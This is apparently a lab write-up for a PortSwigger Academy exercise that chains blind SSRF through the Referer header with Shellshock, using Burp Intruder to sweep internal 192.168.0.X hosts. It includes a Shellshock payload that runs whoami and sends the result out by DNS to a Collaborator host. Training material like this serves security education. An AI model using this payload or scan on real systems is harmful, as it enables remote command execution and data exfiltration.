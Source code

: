 # Blind SSRF with Shellshock exploitation

## Description

[This site](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation) uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

## Reproduction and proof of concept

1. In Burp Suite Professional, install (or load) the "Collaborator Everywhere" extension from the BApp Store.

![SSRF](../../_static/images/ssrf11.png)

2. Add the domain of the lab to Burp Suite's target scope, so that Collaborator Everywhere will target it.
3. Browse the site.
4. Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the `Referer` header.
5. Observe that the HTTP interaction contains your `User-Agent` string within the HTTP request.

![SSRF](../../_static/images/ssrf12.png)

6. Build the attack in Repeater, then send the request to the product page to Burp Intruder:
7. Go to the Collaborator tab and generate a unique Burp Collaborator payload. Place this into the following Shellshock payload:

```text
() { :; }; /usr/bin/nslookup $(whoami).burp-collab-subdomain
```
    
8. Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
9. Once in Intruder, click **Clear §**, change the `Referer` header to `http://192.168.0.1:8080` then highlight the final octet of the IP address (the number 1), click **Add §**.

![SSRF](../../_static/images/ssrf13.png)

10. Switch to the Payloads tab, change the payload type to Numbers, and enter `1`, `255`, and `1` in the **From** and **To** and **Step** boxes respectively.
11. Click **Start attack**.

![SSRF](../../_static/images/ssrf14.png)

12. When the attack is finished, go back to the Collaborator tab, and click **Poll now**. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind SSRF attack. The name of the OS user should appear within the DNS subdomain.

![SSRF](../../_static/images/ssrf15.png)

If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.

13. To complete the lab, enter the name of the OS user as solution.

## Exploitability

An attacker will need to use the analytics functionality to perform a blind SSRF attack against an internal server in the `192.168.0.X` range on port `8080` and use a Shellshock payload against the internal server to exfiltrate the name of the OS user. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, an attacker must use Burp Collaborator's default public server._
